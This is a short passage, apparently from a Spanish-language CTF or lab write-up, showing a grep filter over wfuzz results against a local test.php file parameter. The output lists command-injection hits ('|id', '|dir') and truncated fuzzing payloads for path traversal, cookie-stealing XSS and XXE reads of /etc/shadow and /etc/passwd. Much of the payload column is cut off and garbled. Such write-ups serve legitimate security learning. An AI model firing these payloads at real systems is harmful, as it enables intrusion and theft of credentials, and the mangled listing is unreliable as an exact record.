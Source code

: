 Y ahora con `grep` grepeamos los numeros que no sean `40` y `11` que son los que mas se repiten...

```shell
grep -vE '\b(11|40)\b' wfuzz_output.txt
```

Info:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.5.187/test.php?file=FUZZ
Total requests: 468

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000000045:   200        41 L     162 W      2040 Ch     "|id"                                                                                       
000000046:   200        41 L     163 W      2033 Ch     "|dir"                                                                                      
                                                        %5c..%          25%5c..%25%5c..%255cboot.ini"                                                       
                                                        5%5c..%25%5c..%25%5c..winnt/desktop.ini"                                                    
                                                        %5c..%25%5c..%25%5c..%00"                                                                   
                                                        %5c..%  25%5c..%25%5c..%00"                                                                  
                                                        5%5c..%25%5c..%25%5c..%00"                                                                  
                                                        ipt>"                                                                                       
                                                        #0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0
                                                        000083&#0000083&#0000039&#0000041>"                                                         
                                                        x28&#x27&#x58&#x53&#x53&#x27&#x29>"                                                         
                                                        kie%2Ecgi%3F%27%20%2Bdocument%2Ecookie%3C%2Fscript%3E"                                      
                                                        ring.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//></SCRIPT>!--<SCRIPT>
                                                        alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}"                                          
                                                        xss>XSS</xss:xss></HTML>"                                                                   
                                                        STEM "file:////dev/random">]><foo>&xxe;</foo>"                                              
                                                        STEM "file:////etc/shadow">]><foo>&xxe;</foo>"                                              
                                                        STEM "file:////etc/passwd">]><foo>&xxe;</foo>"                                              
                                                        STEM "file://c:/boot.ini">]><foo>&xxe;</foo>"                                               
                                                        TASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C
                                                         DATAFORMATAS=HTML></SPAN>"                                                                 
                                                        );<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>"                                                  
```